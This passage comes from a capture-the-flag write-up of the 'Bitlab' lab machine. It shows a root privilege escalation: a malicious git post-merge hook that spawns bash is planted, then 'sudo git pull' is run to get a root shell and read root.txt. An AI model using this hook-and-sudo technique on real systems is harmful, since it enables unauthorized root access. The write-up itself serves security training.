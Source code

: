 We create a script named as ```post-merge``` inside ```.git/hooks``` to get a shell as root and give to it execution rights:

```console
www-data@bitlab:/tmp/profile$ cd .git/hooks
cd .git/hooks
www-data@bitlab:/tmp/profile/.git/hooks$ echo 'exec /bin/bash 0<&2 1>&2' > post-merge
< 'exec /bin/bash 0<&2 1>&2' > post-merge
www-data@bitlab:/tmp/profile/.git/hooks$ chmod u+x post-merge
chmod u+x post-merge
```

Once that is done, we upload any file (doesn't matter) to gitlab and merge it, once that is done from inside this location we have rights, we run ```sudo git pull``` and with that we will be root:

```console
www-data@bitlab:/tmp/profile$ sudo git pull
sudo git pull
remote: Enumerating objects: 4, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (3/3), done.
Unpacking objects: 100% (3/3), done.
remote: Total 3 (delta 2), reused 0 (delta 0)
From ssh://localhost:3022/root/profile
   35da5b2..cbbc729  master     -> origin/master
 * [new branch]      patch-2    -> origin/patch-8
Updating 35da5b2..cbbc729
Fast-forward
 1asf | 1 +
 1 file changed, 1 insertion(+)
 create mode 100644 1asf
root@bitlab:/tmp/profile# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bitlab:/tmp/profile# cd /root    
cd /root
root@bitlab:~# ls   
ls 
root.txt
root@bitlab:~# wc -c root.txt
wc -c root.txt
33 root.txt
```

With this we can already go to ```/home``` and see from there which user and it's respective flag.

## Beyond root

Ok, as I said at the begining of the post, there are 2 paths to get this box:

1 - Intended way (user -> root) by doing reversing.
2 - Taking advantage of this misconfigurations.

I will go now into the 1, but I will only cover how to get user, and in the future once I know some reversing, I will post the last piece.
